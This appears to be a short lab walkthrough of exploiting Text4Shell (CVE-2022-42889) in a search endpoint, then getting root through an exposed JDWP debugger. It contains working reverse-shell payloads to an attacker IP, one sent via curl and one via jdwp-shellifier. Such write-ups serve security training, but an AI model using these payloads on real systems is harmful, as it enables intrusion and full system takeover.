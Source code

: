# Take Away
- If a RCE payload does not work, google for available alternatives.
# Exploitation
- Directory Brute Forcing will reveal two potentially interesting URLs. One is `/search` and the other is `/CHANGELOG`.
- Upon visiting the `/CHANGELOG`, one can identify that `Apache Commons Text 1.8` has recently been incorporated into the search functionality which is potentially the `/search` URL.![[Pasted image 20240217104817.png]]
- A little googling will identify that `Apache Commons Text 1.8` is vulnerable to a `RCE`.
	- https://github.com/kljunowsky/CVE-2022-42889-text4shell
- Set up listener and run `curl http://192.168.226.150:8080/search?query=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27bash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.229%2F443%200%3E%261%27%29%7D%0A` to get a reverse shell call back.
# PrivEsc
- `linpeas` will identify Java Debugger is using `jdwp` under root privilege.![[Pasted image 20240217123103.png]]
	- https://book.hacktricks.xyz/network-services-pentesting/pentesting-jdwp-java-debug-wire-protocol
- Download and transfer `jdwp-shellifier` onto the target system
	- https://github.com/hugsy/jdwp-shellifier
- Open a `netcat` listener and run `python3 jdwp-shellifier.py -t 127.0.0.1 -p 8000 -c "bash -c \$@|bash 0 echo bash -i >& /dev/tcp/192.168.45.229/443 0>&1"`. Finally, in another session, run `nc 127.0.0.1 5000 -z` to trigger the RCE and obtain a root shell.